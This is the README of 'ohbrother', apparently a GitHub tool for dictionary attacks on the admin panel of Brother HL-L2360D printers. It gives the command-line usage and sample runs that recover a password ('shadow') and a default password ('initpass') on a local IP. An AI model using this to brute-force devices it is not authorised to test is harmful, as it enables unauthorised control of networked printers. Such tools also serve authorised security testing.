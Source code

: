 # ohbrother
Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)
```
usage: ohbrother.py [-h] --ip-address IP_ADDRESS [--port PORT] [--wordlist WORDLIST]

Brother Printer Admin Panel Dictionary attack (Designed for the HL-L2360D series)

options:
  -h, --help            show this help message and exit
  --ip-address IP_ADDRESS, -i IP_ADDRESS
                        IP Address of the printer
  --port PORT, -p PORT  Port the admin interface is running on (default: 80)
  --wordlist WORDLIST, -W WORDLIST
                        Wordlist to use to attack the printer (default:
                        /usr/share/wordlists/rockyou.txt)
```

# Usage
Dictionary attack using the default wordlist
```
┌──(kali㉿kali)-[~]
└─$ python3 ohbrother.py --ip-address 192.168.0.77python3 ohbrother.py --ip-address 192.168.0.77
root        : INFO     [*] Starting a dictionary attack on http://192.168.0.77:80/general/status.html
root        : INFO     [*] found correct password: shadow
```
Ohbrother checks for common default brother passwords

```
C:\Users\DrewQ\Desktop\Brother> python3 ohbrother.py --wordlist "C:\Users\DrewQ\Downloads\passwords.txt" --ip-address 192.168.0.77
root        : INFO     [*] default password was set: initpass
```
